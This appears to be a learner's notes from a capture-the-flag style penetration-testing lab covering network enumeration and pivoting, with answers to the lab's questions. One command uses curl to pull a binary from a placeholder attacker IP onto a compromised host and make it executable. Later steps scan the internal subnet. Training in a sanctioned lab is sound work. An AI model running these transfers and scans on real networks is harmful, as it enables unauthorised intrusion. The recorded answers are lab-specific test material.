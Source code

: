 **For example, with a Python webserver:-**
On Kali (inside the directory containing your Nmap binary):
`sudo python3 -m http.server 80`

Then, on the target:
`curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME`

Now use the binary to scan the network. The command will look something like this:
`./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME`
This example : `./helloworld -sn 10.200.180.1-255 -oN scan-helloworld`

![[Pasted image 20251009234652.png]]

Excluding the out of scope hosts, and the current host (`.200`), how many hosts were discovered active on the network?
- Answer : 2 (excluding gateway, .200, 250)

Scan the hosts -- which one does _not_ return a status of "filtered" for every port (submit the last octet only)?

![[Pasted image 20251009235643.png]]

- Answer : 150

Let's assume that the **other host is inaccessible from our current position in the network.**

Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?
- Answer : 80,3389,5985

We cannot currently perform a service detection scan on the target without first setting up a proxy, so for the time being, let's assume that the services Nmap has identified based on their port number are accurate. (Please feel free to experiment with other scan types through a proxy after completing the pivoting section).

Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?

## Pivoting (real)
Thinking about the interesting service on the next target that we discovered in the previous task, pick a pivoting technique and use it to connect to this service, using the web browser on your attacking machine!

What is the name of the program running the service?
